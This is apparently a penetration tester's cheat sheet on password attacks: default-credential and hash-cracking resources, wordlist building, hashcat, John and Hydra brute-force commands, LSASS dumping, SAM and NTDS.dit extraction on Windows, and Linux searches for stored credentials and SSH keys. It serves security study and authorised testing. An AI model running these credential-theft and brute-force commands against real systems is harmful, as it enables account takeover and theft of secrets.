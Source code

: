 # Password Attacks

## **Default Credentials and Online Hash Cracking**

> Before attempting login bruteforcing or any password-based attacks, you should always check for **password re-use and default credentials usage**.\
> Also, after finding a hash, you should use one of the following **online cracking databases** before performing dictionary attacks or bruteforcing.

**Default Credentials:**

Always try googling the service's name followed by "default credentials".\
If that doesn't work, you can check the following resources:

1. [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)
2. [https://github.com/Dormidera/WordList-Compendium](https://github.com/Dormidera/WordList-Compendium)
3. [https://datarecovery.com/rd/default-passwords/](https://datarecovery.com/rd/default-passwords/)
4. [https://bizuns.com/default-passwords-list](https://bizuns.com/default-passwords-list)
5. [https://www.cirt.net/passwords](https://www.cirt.net/passwords)

**Online Databases - Hash Cracking:**

Whenever finding a hash, always try cracking it using one of the following online databases:

1. [https://crackstation.net/](https://crackstation.net/)
2. [https://www.cmd5.org/](https://www.cmd5.org/)
3. [https://md5decrypt.net/](https://md5decrypt.net/)
4. [https://www.md5online.org/md5-decrypt.html](https://www.md5online.org/md5-decrypt.html)

***

## **Making Custom Wordlists**

The following commands can help making a custom user or password wordlist after gaining more information about the specific target

* Interactively create a custom Password Wordlist using cupp: `cupp -i`
* Generate usernames list starting from name and surname: `./username-anarchy Bill Gates > wordlist.txt`
* Remove passwords shorter than 8 characters from wordlist: `sed -ri '/^.{,7}$/d' wordlist.txt`
* Remove passwords without numbers from wordlist: `sed -ri '/[0-9]+/!d' wordlist.txt`

***

## **Making Wordlist Mutations**

> A wordlist mutation is simply the result obtained through the process of adding several characters to a pre-existing wordlist. Basic examples are the following:\
> \[-] Adding special characters at the end of each word\
> \[-] Adding numbers at the end of each word\
> \[-] Transforming every word in leet (l33t) format, e.g. "ciao" becomes "c140"

* Generate wordlist based on keywords on a website:\
  `cewl https://example.idk -d 4 -m 6 --lowercase -w wordlist.txt`
* Generate a rule-based wordlist: `hashcat --force password.list -r custom.rule --stdout > new.list`

***

## **Offline Password Cracking**

Offline password cracking refers to the process of locally recovering a cleartext password from a previously obtained password hash. This process doesn't involve any interaction with the target system you are trying to access

**Cracking hashes using Hashcat:**

* Hashcat basic usage: `hashcat -m MODE_NUMBER hashfile /path/to/wordlist`
* Crack NTLM hashes: `hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt`
* Crack NTLMv2 hashes: `hashcat -m 5600 ntlm /usr/share/wordlists/rockyou.txt`
* Crack TGS Ticket after Kerberoasting: `hashcat -m 13100 kerberoasted /usr/share/wordlists/rockyou.txt`
* Crack TGS Ticket after ASREProasting: `hashcat -m 18200 asreproasted /usr/share/wordlists/rockyou.txt`
* Crack unshadowed hashes: `hashcat -m 1800 -a 0 unshadowed /usr/share/wordlists/rockyou.txt -o outfile`
* Crack MD5 hashes: `hashcat -m 500 -a 0 md5-hashes.list /usr/share/wordlists/rockyou.txt`
* Crack BitLocker hashes: `hashcat -m 22100 backup.hash /usr/share/wordlists/rockyou.txt -o backup.cracked`
* Crack KeePass hashes: `hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt`

**Cracking hashes using John:**

* John basic usage: `john --wordlist=/usr/share/wordlists/rockyou.txt hashfile`
* Show cracking result: `john cracked-hash-file --show`
* John unshadowing: `unshadow /etc/passwd /etc/shadow > unshadowed.hashes`
* Crack hash specifying its format: `john --format=hash-type hash_to_crack.txt`

**Cracking files using John Scripts:**

* Install with `sudo apt install john-data`
* John data is a package containing scripts to transform different file types to hashes to crack
* Most of the scripts' usage is the same:\
  `example2john example > hash` followed by `john --wordlist=wordlist.txt hash`
* Some of the mostly used ones are the following:\
  `rar2john`, `zip2john`, `ssh2john`, `pdf2john`, `office2john`, `keepass2john`
* You can find the entire list of scripts and their usage here:\
  [https://www.kali.org/tools/john/#john-data](https://www.kali.org/tools/john/#john-data)

***

## **Bruteforcing Protocols and Services Authentication**

> If you have access to NTLM password hashes or Kerberos Tickets, you should always check if you can authenticate using PtH (Pass the Hash) or PtT (Pass the Ticket)\
> For more information on how to do that, refer to the Active Directory (Kerberos) Notes.

When facing an interesting exposed protocol or service, you could try bruteforcing its authentication in order to gain access.

* Hydra basic usage: `hydra -L user.list -P password.list service://ip`
* Hydra HTTP Basic Authentication bruteforcing:\
  `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`
* Hydra HTTP Post Form Login bruteforcing (error text message):\
  `hydra -l username -P passwords.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:ErrorMessageonLoginFailure"`
* Hydra HTTP Post Form Login bruteforcing (error HTTP element):\
  `hydra -l username -P passwords.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`
* Hydra SSH Authentication bruteforcing:\
  `hydra -L usernames.txt -P passwords.txt -u -f ssh://SERVER_IP:PORT -t 4`
* Hydra FTP Authentication bruteforcing: `hydra -l username -P passwordslist.txt ftp://ServerIP`
* CrackMapExec to bruteforce WinRM: `crackmapexec winrm ip -u userlist -p passwordlist`

***

## **Hunting Passwords in Windows**

**Finding passwords in files:**

1. Find files containing the "password" string in different file types:\
   `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

**Extract credentials by dumping LSASS:**

1. Enumerate the LSASS process PID: `Get-Process lsass` or `tasklist /svc`
2. Create a LSASS dump by specifying the process' PID:\
   `rundll32 C:\windows\system32\comsvcs.dll, MiniDump LSASS-PID C:\lsass.dmp full`
3. Extract Credentials: `pypykatz lsa minidump /path/to/lsassdumpfile`

**Extract credentials from the SAM Database:**

1. Save a copy of the SAM, SECURIRY and SYSTEM registry hives:
   * `reg.exe save hklm\sam C:\sam.save`
   * `reg.exe save hklm\security C:\sam.security`
   * `reg.exe save hklm\system C:\sam.system`
2. Dump password hashes from the SAM database:\
   `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

**Extract hashes from the NTDS.dit file:**

1. Fast way: Use CME with valid credentials:\
   `crackmapexec smb targetIP -u validuser -p password --ntds`
2. Harder way: Create a volume shadow copy for the C Drive to copy the NTDS.dit file safely:\
   `vssadmin CREATE SHADOW /For=C:`
3. Create a copy of NTDS.dit for a volume shadow copy of C:\
   `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`

***

## **Hunting Passwords in Linux**

**Finding passwords in files:**

1. Find passwords in configuration files:\
   `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done`
2. Find common database files:\
   `for l in $(echo ".sql .db .\*db .db\*");do echo -e "\nDB File extension: " $l; find / -name \*\$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share\|man";done | Script that can be used to find common database files.`
3. Find script files: `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share";done`
4. Find common document files:\
   `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done`
5. View the contents of crontab in search for credentials: `cat /etc/crontab`
6. Search files with potential SSH private keys:\
   `grep -rnw "PRIVATE KEY" /* 2>/dev/null \| grep ":1"`
